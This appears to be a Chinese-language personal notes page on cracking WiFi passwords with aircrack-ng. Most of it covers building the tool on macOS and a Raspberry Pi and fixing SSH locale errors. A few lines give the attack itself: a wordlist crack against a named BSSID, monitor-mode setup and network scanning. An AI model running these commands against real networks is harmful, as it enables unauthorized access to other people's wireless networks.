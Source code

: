 ```yaml
---
title:  wifi密码破解
heading: 
date: 2021-11-23T13:37:23.761Z
categories: ["code"]
tags: 
description: wifi-crack
---
```


关于破解的方法和思路参考[渗透测试之构建高效WiFi破解字典](https://www.anquanke.com/post/id/219315)

常见工具：  

- [bully](https://www.kali.org/tools/bully/)
- [reaver](https://www.kali.org/tools/reaver/)
- [aircrack-ng](https://www.aircrack-ng.org/doku.php?id=install_aircrack#installing_on_mac_osx)


## mac 上安装 aircrack-ng

参考程[aircrack-ng](https://github.com/aircrack-ng/aircrack-ng)教安装
``` 
brew install autoconf automake libtool openssl shtool pkg-config hwloc pcre sqlite3 libpcap cmocka
```
下载[aircrack-ng.tar.gz](https://www.aircrack-ng.org/doku.php?id=install_aircrack#installing_on_mac_osx)

解压后安装
```bash
 cd aircrack-ng-1.6
 autoreconf -i
 ./configure --with-experimental
 gmake
 gmake install
 ldconfig
```


```
airport -s
sudo rm -rf /tmp/airport*
sudo airport en0 sniff 3
ls -lh /tmp/airport*
aircrack-ng -w top100.txt -M 100 -f 80 -1 -a 2 -b 0c:5c:b5:c8:04:eb /tmp/airportSniff*.cap
```



## 树莓派上安装 aircrack-ng

mac shell ssh 连接树莓派[中文乱码](https://monsoir.github.io/Notes/RaspberryPie/raspberry-ssh-locale.html)

查看配置
···
```bash
locale
# 输出
locale: Cannot set LC_CTYPE to default locale: No such file or directory
locale: Cannot set LC_MESSAGES to default locale: No such file or directory
locale: Cannot set LC_ALL to default locale: No such file or directory
cat /etc/default/locale
```


修改配置[locale](https://askubuntu.com/questions/599808/cannot-set-lc-ctype-to-default-locale-no-such-file-or-directory)
```bash
grep "^[^#]" /etc/ssh/sshd_config
sudo vi /etc/ssh/sshd_config
# 注释掉以下行
# AcceptEnv LANG LC_*
systemctl restart sshd
echo "export LC_ALL=en_US.UTF-8" >> /etc/.bash_profile
echo "export LANG=en_US.UTF-8" >> /etc/.bash_profile

grep "^[^#]" /etc/locale.gen
# 注释以下行
# en_US.UTF-8 UTF-8
sudo locale-gen
# 查看是否正常
locale
# 或者重新配置默认语音
# sudo dpkg-reconfigure locales
```

安装依赖
```bash
sudo apt-get update
sudo apt-get install -y libpcap-dev libsqlite3-dev sqlite3 libpcap0.8-dev libssl-dev build-essential iw tshark subversion ethtool
sudo apt-get install -y libnl-3-200 libnl-3-dev libnl-genl-3-dev libnl-genl-3-200
```

通过编译的方式[安装](https://www.aircrack-ng.org/doku.php?id=install_aircrack#compiling_and_installing) 
```bash
wget https://download.aircrack-ng.org/aircrack-ng-1.6.tar.gz
tar -zxvf aircrack-ng-1.6.tar.gz
cd aircrack-ng-1.6
autoreconf -i
./configure --with-experimental
make
make install
ldconfig
```

使用Aircrack-ng工具，依次输入以下命令  

```bash
# 杀死占用网卡的进程  
# 如果为空则证明没占用，有进程则需要手动关闭
1.airmon-ng check kill  
查看无线网卡状态
2.ifconfig/iwconfig -a
加载无线网卡，已加载则忽略
3.ifconfig wlan0 up
激活网卡
4.airmon-ng start wlan0
探测无线网络
5.airodump-ng mon0
```

无法关闭 avahi-daemon
```
# 提示
# stopping avahi-daemon.service but it can still be activated by
# 移出
apt-get remove avahi-daemon
```

无法设置监听模式
```bash
iwconfig wlan0 mode monitor
# out 
Error for wireless request "Set Mode" (8B06) :
    SET failed on device wlan0 ; Operation not supported
```

参考  
- [WiFi 安全与攻击案例分析](https://paper.seebug.org/1159/)
- [cracking-wifi-at-scale-with-one-simple-trick](https://www.cyberark.com/resources/threat-research-blog/cracking-wifi-at-scale-with-one-simple-trick)
- [wifi-attack-tools](https://linuxhint.com/wireless-attack-tools-kali-linux/)
- [wifi密码破解方法记录](https://www.jianshu.com/p/44d54b5369d8)
- [Mac上使用aircrack-ng破解Wi-Fi密码](https://uare.github.io/2016/cracking-wifi-by-aircrack-ng-on-mac)
- [近源渗透，超低成本打造自定义专属钓鱼WIFI](https://www.freebuf.com/articles/wireless/272733.html)
- [无线局域网攻防之Wi-Fi破解](https://www.freebuf.com/articles/wireless/280568.html)
- [知道创宇研发技能表v3](https://blog.knownsec.com/Knownsec_RD_Checklist/index.html)